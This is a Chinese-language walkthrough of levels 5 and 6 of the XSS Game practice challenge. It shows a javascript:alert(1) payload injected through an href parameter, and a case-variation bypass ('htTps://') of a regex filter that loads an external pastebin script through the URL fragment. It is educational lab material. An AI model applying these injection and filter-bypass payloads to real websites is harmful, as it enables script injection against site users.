 level5:
前端脚本：
``` html
<br><br>
    <a href="{{ next }}">Next >></a>
</body>
```
前端直接利用url的参数拼接成了a元素的href属性：
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)

level6:
服务端代码如下：

```js
function setInnerText(element, value) {
  if (element.innerText) {
    element.innerText = value;
  } else {
    element.textContent = value;
  }
}

function includeGadget(url) {
  var scriptEl = document.createElement("script");

  // This will totally prevent us from loading evil URLs!
  if (url.match(/^https?:\/\//)) {
    setInnerText(
      document.getElementById("log"),
      'Sorry, cannot load a URL containing "http".'
    );
    return;
  }

  // Load this awesome gadget
  scriptEl.src = url;

  // Show log messages
  scriptEl.onload = function () {
    setInnerText(document.getElementById("log"), "Loaded gadget from " + url);
  };
  scriptEl.onerror = function () {
    setInnerText(
      document.getElementById("log"),
      "Couldn't load gadget from " + url
    );
  };

  document.head.appendChild(scriptEl);
}

// Take the value after # and use it as the gadget filename.
function getGadgetName() {
  return window.location.hash.substr(1) || "/static/gadget.js";
}

includeGadget(getGadgetName());
```
这里本来想直接插入script元素的，但是行不通，只有通过script的src外链加载外域脚本：htTps://pastebin.com/raw.php?i=15S5qZs0
https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0
